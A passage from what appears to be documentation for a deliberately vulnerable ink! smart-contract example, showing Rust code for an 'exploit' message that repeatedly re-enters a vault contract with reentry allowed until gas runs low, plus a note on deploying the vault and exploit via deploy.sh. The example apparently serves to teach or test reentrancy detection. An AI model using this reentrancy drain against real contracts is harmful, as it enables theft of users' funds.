 ```rust
                .transferred_value(self.env().transferred_value())
                .exec_input(
                    ink::env::call::ExecutionInput::new(
                        Selector::new([0x2D_u8,0x10_u8,0xC9_u8,0xBD_u8])
                    ).into()
                ).returns::<Balance>().params();
            self.env().invoke_contract(&call)
                .unwrap_or_else(|err| panic!("Err {:?}",err))
                .unwrap_or_else(|err| panic!("LangErr {:?}",err))
        }

        #[ink(message, payable, selector = 0x0)]
        pub fn exploit(&mut self) {
            ink::env::debug_println!("Exploit  function called from {:?} gas left {:?}",self.env().caller(), self.env().gas_left());
            if self.env().gas_left() > self.gas_to_stop{
                let call = build_call::<ink::env::DefaultEnvironment>()
                .call(self.contract)
                .transferred_value(0)
                .exec_input(
                    ink::env::call::ExecutionInput::new(Selector::new([0x76_u8,0x75_u8,0x7E_u8,0xD3_u8]))
                        .push_arg(self.env().account_id())
                        .push_arg(self.amount)
                        .push_arg(0)
                )
                .call_flags(
                    ink::env::CallFlags::default()
                        .set_allow_reentry(true)
                )
                .returns::<Balance>()
                .params();
                ink::env::debug_println!("Call generated gas left:{:?}",self.env().gas_left());
                self.env().invoke_contract(&call)
                    .unwrap_or_else(|err| panic!("Err {:?}",err))
                    .unwrap_or_else(|err| panic!("LangErr {:?}",err));
                ink::env::debug_println!("Call finished");
            } 
        }
    }

}

```
### Deployment

Vault and Exploit files can be found under the directories ./vulnerable-example/exploit and ./vulnerable-example/vault. The whole exploit example can be run automatically using the `deploy.sh` file.

### Tutorial
